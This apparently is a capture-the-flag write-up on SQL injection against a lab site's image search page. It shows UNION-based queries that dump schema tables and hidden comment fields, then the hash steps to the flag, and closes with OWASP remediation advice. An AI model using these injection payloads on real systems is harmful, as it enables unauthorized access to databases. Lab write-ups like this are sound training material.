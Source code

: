 # SQL Injection (IMAGE)

Once clicking the `Search Image` located on bottom of the page, a prompt will be shown to search image with image number, (http://{IP_ADDR}/index.php?page=searchimg). let's see what information will be pulling off from: Putting number to see what information will be pulling out from Once you put any number and submit, it will bring a result with corresponding ID number with `ID`, `First name`, `Surname`

```
[...]
ID: 1
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
[...]
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
[...]
```

As studied from [last method](../0x0a-sql_injection-members/README.md), every database will have it's schema, so let's check what information can be get by looking through `information_schema`

```
1 AND 1=1 UNION SELECT 1, table_name FROM information_schema.tables
```
the `list_images` table exists, so let's check all the column names from it.

```
1 AND 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```
by searching the `list_images`, the columns exist

```
id, url, title, comment
```

By tring all the columns, with using columns `title`, and `comment`, the following message can be reterived, with this query

```
1 AND 1=1 UNION SELECT title, comment FROM list_images
```

(image here)

as it shows, let's decrypt the password
```
ID: 1 AND 1=1 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
```

```
1928e8083cf461a51303633093573c46 -(MD5 decrypt)-> albatroz -(sh256 encrypt)->

f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

# Remedattion
A SQL Injection is an attack of injectin query through the input data from the client to the application. It can cause modify, removal, or admin operation to the databases. This can happen when unintended data enters a program from an untrusted source, or the data is used to dynamically construct a SQL query.

In order to prevent,

- Use of Prepare Statements (with Parameterized Queries)
- Use of properly construed stored Procedures
- Allow-list input valiation
- Escaping All User Supplied Input

See More:

- [SQL Injection | OWASP Foundation](https://owasp.org/www-community/attacks/SQL_Injection)
- [SQL Injection Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
